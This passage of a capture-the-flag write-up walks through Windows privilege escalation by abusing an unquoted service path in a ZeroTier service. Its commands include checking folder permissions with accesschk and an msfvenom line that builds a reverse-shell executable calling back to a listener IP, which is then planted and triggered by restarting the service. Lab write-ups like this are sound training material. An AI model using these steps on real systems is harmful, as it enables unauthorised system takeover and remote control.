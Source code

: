 ![](2025-05-31-enterprise-28.png)

* immidately we found a unqouted service path, which we can control on demand.
* first lets check for service configuration and confirm if its vulnerable or not.

```powershell
sc qc zerotieroneservice
```

![](2025-05-31-enterprise-29.png)

* good its vulnerable, now lets check the service path permissions.
* for this we will need accesschk binary on target, thus transfer it over.

```
accesschk64.exe /accepteula -uwdq "C:\Program Files (x86)\Zero Tier\"
```

![](2025-05-31-enterprise-30.png)

* as we see that all BUILTIN\Users are allowed to read and write over this directory.
* thus now we create a malicious exectuable using msfvenom and place binary a folder below orgiginal binary with same as folder name.
* lastly we will be restarting the service to get back a rev shell.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.70.87 LPORT=4444 -f exe -o rev.exe
```

* send this executable over to target and paste it in `C:\Program Files (x86)\Zero Tier\` by naming it `Zero.exe`.

![](2025-05-31-enterprise-31.png)

* restart the service while starting a listener.

![](2025-05-31-enterprise-32.png)

![](2025-05-31-enterprise-33.png)

**NOTE: this shell might die sometimes as windows automatically closes any application/service that does not response for long.**

* and thus in our case as we are spawning a rev shell using this it might detect as not responding.
* thus to avoid this use meterpreter shell and migrate process as soon as we get the shell.
* and at last got root flag.

![](2025-05-31-enterprise-34.png)
